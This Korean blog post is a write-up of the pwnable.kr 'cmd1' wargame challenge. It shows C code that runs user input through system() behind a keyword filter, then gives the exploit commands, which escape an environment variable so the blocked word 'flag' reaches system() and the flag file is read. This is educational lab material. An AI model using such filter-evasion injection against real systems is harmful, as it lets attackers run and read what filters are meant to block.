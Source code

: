 ```yaml
---
title: "pwnable.kr - Toddler's bottle #13 cmd1"
date: 2020-03-08
categories:
  - Information Security
tags:
  - pwnable.kr
---
```


[pwnable.kr][pwnable.kr] Toddler's bottle의 #13 cmd1 문제 풀이

environment variable을 이용해서 푸는 문제다

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}

int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

putenv("PATH=/thankyouverymuch") 이 부분때문에 PATH environment variable이 없어짐. 따라서 명령어를 그냥 쓰면 안된다.

main에서 argv[1]을 받아 이를 system으로 실행시켜주는데, filter에서 볼수 있듯 flag, sh, tmp가 argv[1]의 일부면 실행이 안된다

그래서 environment variable을 export하고 실행시켜봤는데 이렇게 해도 안되었다

~~~
cmd1@pwnable:~$ export qqq=flag
cmd1@pwnable:~$ ./cmd1 "/bin/cat $qqq"
~~~

보니까 저렇게 하면 넘어가는 argv[1]으로 넘어간 시점에서 qqq가 이미 flag로 바뀌는것 같았다.

내가 원하는건 argv[1]으로 넘어가서 최종적으로 system의 arg가 되는 string이 "/bin/cat $qqq"가 되는것이니까 $qqq에 이런저런걸 실험해 봤다. 최종적으로 이렇게 하니 되는걸 확인할 수 있었다.

~~~
cmd1@pwnable:~$ ./cmd1 "/bin/cat \$qqq"
<tag output>
~~~

[pwnable.kr]: https://pwnable.kr

<!-- mommy now I get what PATH environment is for :) -->